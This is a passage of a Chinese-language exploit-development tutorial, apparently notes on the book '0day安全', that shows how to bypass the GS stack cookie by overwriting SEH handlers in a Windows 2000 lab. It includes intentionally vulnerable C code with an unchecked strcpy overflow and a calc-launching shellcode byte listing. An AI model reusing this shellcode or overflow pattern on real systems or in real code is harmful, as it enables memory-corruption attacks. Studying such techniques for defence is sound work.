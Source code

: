 这种攻击方式的思想是：以优先取胜。是的，我是把栈帧覆盖掉了，我也知道当函数返回时我的行为就会被发现并阻止。但是我不仅覆盖掉了栈帧，我还覆盖掉了虚函数表指针，而那个指针在你（当前函数GS机制）发现我的行为**之前**就会被调用。这样一来，当前函数实际上并不会正常返回，GS机制也就拿我没有办法了。

需要注意的是，本节只是演示了一种攻击可能性，真实的环境中未必有这么多可以利用的地方，还是要因地制宜，需要动脑筋的！

## 攻击异常处理突破GS

GS没有为SEH提供保护，所以我们可以通过劫持SEH来控制程序流程。为了避免SafeSEH的影响，我们在`Windows 2000`上使用`Visual Studio 2005`来做实验（这也表明这种方法在之后会受到限制，未来需要同时绕过多种漏洞缓解措施）（依然要禁用编译优化，同样使用`release`版本）。

思路是：我们通过超长字符串覆盖掉异常处理函数指针，然后想办法触发一个异常。这样一来，就可以在程序进行cookie检查前劫持控制流。

测试代码：

```c
#include <stdio.h>
#include <string.h>

char shellcode[] = "\x90...";

void test(char *input)
{
	char buf[200];
	strcpy(buf, input);
	//__asm INT 3
	strcat(buf, input);
}

int main(int argc, char* argv[])
{
	test(shellcode);
	return 0;
}
```

`test`函数存在栈溢出，另外由于`strcpy`的溢出覆盖了`strcat``input`参数的地址，所以会导致`strcat`从非法地址读取数据，继而引发异常，转入异常处理。

可以看到，的确开启了GS：

![Bildschirmfoto 2018-08-08 um 7.07.30 PM.png]({{ site.url }}/images/0day/B833099F9B46AE14332A4AC02C8C8902.png)

其实攻击就是普通的SEH攻击，可以参考[0day安全 | Chapter 6 形形色色的内存攻击技术](quiver:///notes/64424647-2E4E-42FB-8F24-E60575A8DCD4)。

首先下`__asm INT 3`然后`attach`调试，查看SEH，把shellcode起始地址到栈顶异常处理函数的偏移量算清楚，然后就是攻击了。比较简单，不再多说：

![Bildschirmfoto 2018-08-08 um 6.43.56 PM.png]({{ site.url }}/images/0day/038114F4B9EDEC709DF7FDF860363D42.png)

shellcode：

```c
// nop
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

// calc
"\x31\xc9\xb1\xbc\xe8\xff\xff\xff\xff\xc1\x5e\x30\x4c\x0e\x07"
"\xe2\xfa\xfd\xea\x81\x04\x05\x06\x67\x81\xec\x3b\xcb\x68\x86"
"\x5e\x3f\x9b\x43\x1e\x98\x46\x01\x9d\x65\x30\x16\xad\x51\x3a"
"\x2c\xe1\xb3\x1c\x40\x5e\x21\x08\x05\xe7\xe8\x25\x28\xed\xc9"
"\xde\x7f\x79\xa4\x62\x21\xb9\x79\x08\xbe\x7a\x26\x40\xda\x72"
"\x3a\xed\x6c\xb5\x66\x60\x40\x91\xc8\x0d\x5d\xa5\x7d\x01\xc2"
"\x7e\xc0\x4d\x9b\x7f\xb0\xfc\x90\x9d\x5e\x55\x92\x6e\xb7\x2d"
"\xaf\x59\x26\xa4\x66\x23\x7b\x15\x85\x3a\xe8\x3c\x41\x67\xb4"
"\x0e\xe2\x66\x20\xe7\x35\x72\x6e\xa3\xfa\x76\xf8\x75\xa5\xff"
```